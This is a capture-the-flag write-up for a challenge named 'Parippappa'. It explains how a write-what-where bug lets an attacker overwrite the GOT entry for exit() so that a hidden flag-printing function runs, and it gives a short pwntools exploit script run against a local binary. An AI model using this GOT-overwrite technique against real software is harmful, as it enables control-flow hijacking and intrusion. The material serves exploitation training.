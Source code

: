 # Parippappa

### Description
Can you make the man happy and get the flag? 

### Rules
- You cannot patch this binary. 
- The challenge must be solved by providing appropriate inputs.
- Do not modify the temp file.

## Solution
The binary provides a trivial write-what-where so it would be a good idea to overwrite some entry in the GOT in order to get control of the program control flow.
A good candidate for the overwrite would be (as usual) the `exit()` function.
The function that (sort of) gives us the flag is `give_the_man_a_cat()` but it's never called anywhere.
By overwriting the GOT entry for `exit()` we can call the required function and get the flag.

```python
from pwn import *

context.binary = "./vuln"
p = process()
p.sendline(b"y")
p.sendline(
    str(context.binary.functions["give_the_man_a_cat"].address).encode("ascii"))
p.sendline(str(context.binary.got["exit"]).encode("ascii"))
p.interactive()
```

### Flag
```plain
SPRITZ{PaRiPpaPPaA}
```